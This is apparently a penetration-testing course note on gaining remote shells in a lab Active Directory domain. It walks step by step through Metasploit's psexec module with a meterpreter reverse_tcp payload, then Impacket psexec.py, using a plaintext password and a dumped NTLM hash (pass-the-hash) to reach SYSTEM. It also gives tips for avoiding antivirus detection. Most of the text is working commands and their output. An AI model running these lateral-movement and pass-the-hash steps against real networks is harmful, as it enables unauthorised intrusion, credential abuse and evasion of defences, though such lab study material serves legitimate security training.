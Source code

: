 1. We can get shell using a password and a username 

![](https://i.imgur.com/NZjEBIr.png)

2. We can gain shell access with the SAM dumped hash we got from the smb relay attack

![](https://i.imgur.com/wWJPEWY.png)

> Metasploit is mostly noisy which might get picked up by an antivirus, that is why we have other tools like `psexec.py` which is a little bit noisy
> 

1. Same as we can gain access with password and usernames using metasploit, we can use `psexec.py`

![](https://i.imgur.com/RrMmz5y.png)

2. We can also get shell though hashes

![](https://i.imgur.com/FqMWCNX.png)

# Practical

1. Metasploit

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ msfconsole
[*] Starting the Metasploit FraMework console...%

msf6 > use exploit/windows/smb/psexec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```

```shell
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBSHARE                               no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.0.157    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```

```shell
msf6 exploit(windows/smb/psexec) > set rhosts 192.168.0.166
rhosts => 192.168.0.166
msf6 exploit(windows/smb/psexec) > set smbdomain MARVEL.local
smbdomain => MARVEL.local
msf6 exploit(windows/smb/psexec) > set smbuser fcastle
smbuser => fcastle
msf6 exploit(windows/smb/psexec) > set smbpass Password1
smbpass => Password1
```

```shell
msf6 exploit(windows/smb/psexec) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload
    4   Command
```

It is better to choose `Native upload` for the targets if you have failed on `Automatic` 

```shell
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.0.157:4444 
[*] 192.168.0.166:445 - Connecting to the server...
[*] 192.168.0.166:445 - Authenticating to 192.168.0.166:445|MARVEL.local as user 'fcastle'...
[*] 192.168.0.166:445 - Selecting PowerShell target
[*] 192.168.0.166:445 - Executing the payload...
[+] 192.168.0.166:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200774 bytes) to 192.168.0.166
[*] Meterpreter session 1 opened (192.168.0.157:4444 -> 192.168.0.166:56193) at 2023-09-16 16:25:05 -0400

meterpreter > 
```

Now we need to do a hash attack so background this session

```shell
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(windows/smb/psexec) > 
```

```shell
msf6 exploit(windows/smb/psexec) > set smbuser administrator
smbuser => administrator
msf6 exploit(windows/smb/psexec) > unset smbdomain
Unsetting smbdomain...
[!] Variable "smbdomain" unset - but will use a default value still. If this is not desired, set it to a new value or attempt to clear it with set --clear smbdomain
```

Now we need our hash, Note that the **NT** part of this hash is the most important, but we need to select both the **LM** and **NT** part for this attack

![](https://i.imgur.com/c8XeAIx.png)

```shell
msf6 exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f

smbpass => aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f

msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 192.168.0.157:4444 
[*] 192.168.0.166:445 - Connecting to the server...
[*] 192.168.0.166:445 - Authenticating to 192.168.0.166:445 as user 'administrator'...
[*] 192.168.0.166:445 - Selecting PowerShell target
[*] 192.168.0.166:445 - Executing the payload...
[+] 192.168.0.166:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (200774 bytes) to 192.168.0.166
[*] Meterpreter session 3 opened (192.168.0.157:4444 -> 192.168.0.166:54623) at 2023-09-16 17:47:14 -0400

meterpreter > 
```

2. Psexec.py

We can get shell on target system, using this syntax :

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ psexec.py MARVEL/fcastle:'Password1'@192.168.0.166

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 192.168.0.166.....
[*] Found writable share ADMIN$
[*] Uploading file fsodQFwB.exe
[*] Opening SVCManager on 192.168.0.166.....
[*] Creating service fqSt on 192.168.0.166.....
[*] Starting service fqSt.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

We can use the `exit` command to close this section

Sometimes we might not be able to pass our password as a string directly, we can just remove the password from our command and things would be fine, as we can see we are prompted for a password below

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ psexec.py MARVEL/fcastle:@192.168.0.166  

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Requesting shares on 192.168.0.166.....
[*] Found writable share ADMIN$
[*] Uploading file aDwPMykR.exe
[*] Opening SVCManager on 192.168.0.166.....
[*] Creating service JZWK on 192.168.0.166.....
[*] Starting service JZWK.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

We could also connect to our target with hashes

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ psexec.py administrator@192.168.0.166 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 192.168.0.166.....
[*] Found writable share ADMIN$
[*] Uploading file UaXfeiHM.exe
[*] Opening SVCManager on 192.168.0.166.....
[*] Creating service SCMQ on 192.168.0.166.....
[*] Starting service SCMQ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.19045.2006]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

In case we get blocked by antivirus we have other tools like `wmiexec.py` and `smbexec.py` ,  this tools also have the same syntax with `psexec.py` so we can just run them directly if one doesn't work
